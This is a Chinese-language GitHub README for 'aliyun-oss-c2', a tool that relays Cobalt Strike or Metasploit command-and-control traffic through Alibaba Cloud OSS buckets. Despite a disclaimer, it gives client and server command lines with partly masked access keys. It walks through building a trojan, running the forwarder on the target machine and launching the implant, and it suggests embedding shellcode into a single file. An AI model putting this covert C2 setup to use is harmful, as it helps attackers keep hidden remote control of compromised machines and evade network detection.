

# aliyun-oss-c2
利用阿里云oss，来转发http流量，该代码是在大佬9bie基础上改造而来（大佬的是利用腾讯云OSS）：https://github.com/9bie/oss-stinger

可以用来cs/msf上线等

# 免责声明
*****
该工具仅用于各安全公司用于提升自己安全产品检测能力

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
*****

# 如何使用
```
[WARN] 需要确保OSS ACCESS KEY和OSS ACCESS KEY SECRET的权限最低
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080，即CS监听本地端口
  -bucket string
        请输入你的阿里云bucket
  -endpoint string
        请输入你Bucket对应的Endpoint，以华东1（杭州）为例，填写为oss-cn-hangzhou.aliyuncs.com
  -id string
        输入你的阿里云OSS ACCESS KEY
  -key string
        输入你的阿里云OSS ACCESS KEY SECRET
  -mode string
        client/server 二选一
[WARN] 运行案例：
[WARN] 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
[WARN] 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
首先，现在cs生成一个http的listen，并把host都改成127.0.0.1，然后生成木马


1、去阿里云申请一个OSS的Bucket列表，Buckert的名称对应上面的-bucket的值
https://oss.console.aliyun.com/bucket

点击创建好的Bucket即可获取到对应的endpoint，即对应上面的-endpoint的值

然后再去 `https://ram.console.aliyun.com/users` 拿到。

然后就可以使用我们的工具，先在客户机上起一个转发器。使用命令OSS ACCESS KEY和OSS ACCESS KEY SECRET，记得一定要把权限搞到只能操控该oss

```
# 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```

然后服务器运行
```
# 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
然后在客户机双击你的木马，就能上线了


# tips
如果要弄成一个文件，自行修改代码把shellcode加入进去然后用`go runshellcode()`即可。
secretkey和secretid的安全问题，目前没有什么好的解决方案，当前只能把权限修改成最低。

# TODO
 - shellcode加载
 - 自定义修改流量特征
 - 合并阿里云/aws/腾讯云等支持
 - 添加其他协议支持（HTTPS会优先考虑）
